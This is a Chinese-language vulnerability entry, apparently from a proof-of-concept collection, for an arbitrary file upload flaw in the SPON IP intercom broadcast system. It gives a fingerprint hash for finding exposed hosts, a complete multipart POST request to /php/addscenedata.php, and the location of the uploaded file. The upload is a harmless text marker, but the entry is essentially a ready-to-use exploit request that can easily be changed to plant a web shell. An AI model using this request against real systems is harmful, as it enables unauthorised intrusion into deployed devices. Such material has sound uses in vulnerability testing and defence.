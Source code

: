 ﻿# spon IP网络对讲广播系统任意文件上传漏洞

> 更新时间：2024-01-15

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：icon_hash="-1700598274"

> 验证脚本：HTTP

```
POST /php/addscenedata.php HTTP/1.1
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4LuoBRpTiVBo9cIQ
Accept-Encoding: gzip

------WebKitFormBoundary4LuoBRpTiVBo9cIQ
Content-Disposition: form-data; name="upload"; filename="dudesuite.txt"
Content-Type: text/plain

dudesuite
------WebKitFormBoundary4LuoBRpTiVBo9cIQ--
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/images/scene/dudesuite.txt


> 验证文件来源：spon IP网络对讲广播系统任意文件上传漏洞.poc
